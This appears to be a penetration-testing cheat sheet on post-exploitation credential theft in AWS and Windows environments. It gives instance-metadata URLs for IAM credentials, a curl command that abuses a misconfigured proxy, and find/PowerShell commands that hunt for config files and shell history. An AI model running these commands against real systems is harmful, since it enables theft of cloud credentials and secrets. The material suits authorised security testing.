 # Post exploitation
## Index
* [Getting Credentials](#Getting-credentials)
  * [Instance Metadata Service URL](#Instance-Metadata-Service-URL)
  * [Web config and App config files](#Web-config-and-App-config-files)
  * [Internal repositories](#Internal-repositories)
  * [Command history](#Command-history)

## Getting credentials
- Check the following dirs for scripts/creds:
  - ``` C:\ProgramData\Amazon`` 
  - ```C:\Program Files\Amazon\WorkSpacesConfig\```

## Stealing access tokens
### Instance Metadata Service URL
- For example possible by SSRF or when having access to the file system
```
http://169.254.169.254/latest/meta-data
```

#### Additional IAM creds possibly available here

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM Role Name>
```

- Can potentially hit it externally if a proxy service (like Nginx) is being hosted in AWS and misconfigured

```bash
curl --proxy vulndomain.target.com:80 http://169.254.169.254/latest/meta-data/iam/security-credentials/ && echo
```

### Web config and App config files
-  ```Web.config``` and ```app.config``` files might contain creds or access tokens.
- Look for management cert and extract to ```.pfx``` like publishsettings files
```
sudo find / -name web.config 2>/dev/null
Get-ChildItem -Path C:\ -Filter app.config -Recurse -ErrorAction SilentlyContinue -Force
```

### Internal repositories
- Find internal repos (scan for port 80, 443 or Query AD and look for subdomains or hostnames as git, code, repo, gitlab, bitbucket etc)
- Tools for finding secrets
  - Gitleaks https://github.com/zricethezav/gitleaks
  - Gitrob https://github.com/michenriksen/gitrob
  - Truffle hog https://github.com/dxa4481/truffleHog

### Command history
- Look through command history
- ```~/.bash_history`` or ```%USERPROFILE%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt```
```
sudo find / -name .bash_history 2>/dev/null
Get-ChildItem -Path C:\ -Filter *ConsoleHost_history.txt* -Recurse -ErrorAction SilentlyContinue -Force
```
